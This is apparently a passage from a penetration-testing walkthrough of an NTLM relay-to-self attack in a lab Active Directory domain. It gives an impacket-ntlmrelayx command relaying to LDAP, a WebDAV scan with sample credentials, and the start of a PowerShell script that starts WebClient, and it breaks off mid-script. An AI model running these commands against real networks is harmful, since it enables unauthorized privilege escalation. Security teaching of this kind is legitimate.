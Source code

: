 ## NTLMrelayx

Now, once the attack is successful, we will receive a authenticated session as WS01$. But we also want to perform a action with this session to actually reach our goal, becoming system on WS01. We typically have two main options, set shadow credentials on the computer or allow Resource-based constrained delegation (RBCD) for our low privilege user on the computer. Typically when there is a Certificate Authority available, we will want to set the shadow credentials.

```bash
proxychains impacket-ntlmrelayx -domain powercorp.local -t ldap://10.10.1.128 -i
```

Notice that we run the command trough the proxy using “proxychains”. Also, notice that I’ve set the “-i” parameter. This will start a interactive LDAP shell to perform multiple actions with the NTLM authentication of WS01$, instead of setting the shadow credentials directly. This comes in very handy if for whatever reason, the shadow credentials would already be set for WS01.

## WebDAV

Next, we want to make sure WebDAV is running. We can check if it is running remotely using [https://github.com/Hackndo/WebclientServiceScanner](https://github.com/Hackndo/WebclientServiceScanner).

```bash
webclientservicescanner powercorp.local/incendium:Password123@10.10.1.129
```

Which results in:

![](/assets/img/posts/ntlmrelay2self/3.png)

Since we have a shell on the system, we can easily start webdav using this PowerShell script:

```powershell
$Source = @"
using System;
using System.Text;
using System.Security;
using System.Collections.Generic;
using System.Runtime.Versioning;
using Microsoft.Win32.SafeHandles;
using System.Runtime.InteropServices;
using System.Diagnostics.CodeAnalysis;
namespace JosL.WebClient{
public static class Starter{
[StructLayout(LayoutKind.Explicit, Size=16)]
public class EVENT_DESCRIPTOR{
[FieldOffset(0)]ushort Id = 1;
[FieldOffset(2)]byte Version = 0;
[FieldOffset(3)]byte Channel = 0;
[FieldOffset(4)]byte Level = 4;
[FieldOffset(5)]byte Opcode = 0;
[FieldOffset(6)]ushort Task = 0;
[FieldOffset(8)]long Keyword = 0;
}

[StructLayout(LayoutKind.Explicit, Size = 16)]
public struct EventData{
[FieldOffset(0)]
internal UInt64 DataPointer;
[FieldOffset(8)]
internal uint Size;
```